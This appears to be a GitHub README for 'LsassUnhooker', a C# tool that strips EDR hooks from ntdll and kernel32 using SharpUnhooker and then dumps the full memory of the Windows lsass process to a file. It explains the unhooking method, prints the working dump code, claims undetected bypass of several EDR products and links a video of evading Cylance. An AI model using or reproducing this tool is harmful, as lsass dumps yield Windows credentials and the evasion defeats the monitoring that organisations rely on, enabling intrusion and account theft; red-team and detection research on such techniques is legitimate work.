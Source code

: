 # LsassUnhooker
Little program written in C# to bypass EDR hooks and dump the content of the lsass process. The code makes use of [SharpUnhooker](https://github.com/GetRektBoy724/SharpUnhooker).

SharpUnhooker's project, created by GetRektBoy724, works the following way:

1.  It reads and copies the `.text section` of the original (in-disk) DLL using "PE parser stuff"
2.  It patches the `.text section` of the loaded DLL using `Marshal.Copy` and `NtProtectVirtualMemory` from D/Invoke (to changes the permission of the memory)
3.  It checks the patched in-memory DLL by reading it again and compare it with the original one to see if its correctly patched.

By just using SharpUnhooker and the MiniDumpWriteDump function, I was able to bypass multiple EDRs and managed to dump the content of lsass without being detected. This is the code that does the trick:

```csharp
SilentUnhooker("ntdll.dll");
SilentUnhooker("kernel32.dll");
String dumpFileName = Directory.GetCurrentDirectory() + "\\" + "lsass.dmp";
if (System.IO.File.Exists(dumpFileName))
{
	System.IO.File.Delete(dumpFileName);
}
IntPtr hFile = NativeMethods.CreateFile(dumpFileName, NativeMethods.EFileAccess.GenericWrite, NativeMethods.EFileShare.None, lpSecurityAttributes: IntPtr.Zero, dwCreationDisposition: NativeMethods.ECreationDisposition.CreateAlways, dwFlagsAndAttributes: NativeMethods.EFileAttributes.Normal, hTemplateFile: IntPtr.Zero);
NativeMethods._MINIDUMP_TYPE dumpType = NativeMethods._MINIDUMP_TYPE.MiniDumpWithFullMemory;
var proc = Process.GetProcessesByName("lsass").FirstOrDefault();
var exceptInfo = new NativeMethods.MINIDUMP_EXCEPTION_INFORMATION();
var result = NativeMethods.MiniDumpWriteDump(proc.Handle, proc.Id, hFile, dumpType, ref exceptInfo, UserStreamParam: IntPtr.Zero, CallbackParam: IntPtr.Zero);
if (result == true) {
	Console.WriteLine("lsass process was successfully dumped in " + Directory.GetCurrentDirectory() + "\\" + "lsass.dmp");
}
else {
	Console.WriteLine("Error dumping lsass process");
}
```

## Example bypassing Cylance
https://user-images.githubusercontent.com/6664528/123254614-29e3cf80-d4ef-11eb-8c80-882e12cbd1b3.mp4
